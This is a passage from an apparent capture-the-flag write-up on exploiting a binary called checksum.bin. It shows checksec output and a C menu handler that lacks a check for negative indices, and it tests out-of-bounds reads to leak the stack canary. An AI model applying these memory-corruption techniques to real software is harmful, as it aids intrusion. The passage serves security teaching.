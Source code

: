 Then, we run it, but find that it’s complaining about some smashed stack

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
*** stack smashing detected ***: terminated
[*] Got EOF while reading in interactive
```

### Stack canary

We check the protections the binary has, and find that it does have a stack canary, which explains the error

```
$ checksec ./checksum.bin
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This means that we need to find a way to leak the stack canary too. We take a look at the source code again, focusing on option 1 which allows us to read from the `history` stack array. 

```c
case 1:
    printf("idx >> ");
    scanf("%lld", &read_idx);
    if (read_idx >= HISTORY_SZ)
        exit(1);
    printf("<< %lld\n", history[read_idx]);
    break;
```

We notice that it only checks for `read_idx` to be less than `HISTORY_SZ`, but doesn’t check if it’s non-negative. We run it and test it out with negative numbers, and find that it reads the values just fine

```
$ ./checksum.bin
Checksum Sum Checker
--- math is hard ---
1: View history
2: Sum numbers
opt >> 1
idx >> -1
<< 0
opt >> 1  
idx >> -10
<< 94714415878432
```

